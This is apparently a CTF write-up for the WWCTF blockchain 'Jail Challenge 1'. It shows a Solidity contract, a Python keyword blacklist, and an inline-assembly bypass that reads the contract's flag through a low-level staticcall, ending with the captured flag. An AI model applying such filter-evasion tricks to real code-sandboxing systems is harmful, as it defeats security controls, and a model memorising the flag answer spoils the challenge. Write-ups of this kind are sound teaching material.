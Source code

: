 ```yaml
---
layout: post
title: "WWCTF Blockchain Challenges"
date: 2025-07-27
categories: writeups
tags: [ctfs, blockchain]
---
```


I recently participated in WWCTF with my team, **HackerTroupe**.As usual I solve the smart contract challenges

 This is my solution for the "Jail Challenge 1" blockchain challenge.

The objective is to retrieve the `flag` variable from a `BytecodeRunner` contract, but our input is restricted by a Solidity keyword jail.

### Challenge Analysis

The challenge provides two files that define the environment.

#### 1. The Jailer Contract (`Jail.sol`)

This contract takes arbitrary bytecode, deploys it using `create2`, and then executes its `main()` function. The flag we need to capture is a public state variable within this contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract BytecodeRunner {
    string public flag = "wwf{REDACTED}";

    function run(
        bytes memory _bytecode,
        bytes32 _salt
    ) public returns (bool success, bytes memory result) {
        address newContract;
        assembly {
            newContract := create2(0, add(_bytecode, 0x20), mload(_bytecode), _salt)
        }
        // ...
        (success, result) = newContract.call(abi.encodeWithSelector(bytes4(keccak256("main()"))));
        require(success, "Execution of main() failed.");
    }
}
```

#### 2. The Jail Script (`JailTalk.py`)

This Python script takes our input, wraps it inside the main() function of a Solution contract, and checks our code against a blacklist of keywords. If the code is valid, it's compiled and sent to the BytecodeRunner contract.

The key restriction is this blacklist:
```python
blacklist = [
    "flag", "transfer", "address", "this", "block", "tx",
    "origin", "gas", "fallback", "receive", "selfdestruct", "suicide"
]
```
This prevents us from simply calling flag() or using address(this) to interact with the contract directly.

#### Vulnerability and Approach:

The jail only sanitizes the high-level Solidity code, not the low-level operations. We can bypass the keyword restrictions by using inline assembly (Yul).

Since flag is a public state variable, the compiler automatically generates a public getter function for it. We can calculate its function selector:

 1. Function Signature: flag()

 2. Selector: bytes4(keccak256("flag()")) which is 0x890eba68

Our plan is to:

1. Write our exploit in inline assembly within the main() function.

2. Manually construct the calldata for the flag() function using its selector.

3. Use the caller() opcode in assembly, which gives us the address of the BytecodeRunner contract that deployed our Solution contract.

4. Use staticcall to call the flag() function on the caller() and retrieve the flag's value.


#### Exploit:
This is the assembly code that is pasted into the challenge's input prompt. It makes a low-level call without using any of the blacklisted keywords.

```solidity
string memory my_result;

assembly {
    // Get a free memory pointer.
    let ptr := mload(0x40)

    // Store the 4-byte selector for "flag()" (0x890eba68) in memory.
    // shl(224, selector) left-aligns the 4 bytes in a 32-byte word.
    mstore(ptr, shl(224, 0x890eba68))

    // Perform a staticcall to the caller (BytecodeRunner contract).
    let success := staticcall(
        gas(),          // Forward all available gas
        caller(),       // The address of the BytecodeRunner contract
        ptr,            // Input data starts at `ptr` (our selector)
        4,              // Input data size is 4 bytes
        ptr,            // Output data will be written back to `ptr`
        256             // Allocate 256 bytes for the output buffer
    )

    if iszero(success) {
        revert(0, 0)
    }

    // The returned string is located at ptr + 32 bytes (offset).
    // The first 32 bytes contain the length of the string.
    my_result := add(ptr, 0x20)
    
    // Update the free memory pointer to avoid memory corruption.
    mstore(0x40, add(ptr, and(add(add(returndatasize(), 31), 32), not(31))))
}

return my_result;
```

#### Result:
After submitting the assembly code, the script executes it and returns the decoded string containing the flag.
```Plaintext
 [True, b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00 \x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00(wwf{y0u_4r3_7h3_7ru3_m4573r_0f_s0l1d17y}\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00']

```
**Flag**:
```Plaintext
wwf{y0u_4r3_7h3_7ru3_m4573r_0f_s0l1d17y}
```

--
**Challenge2 is coming**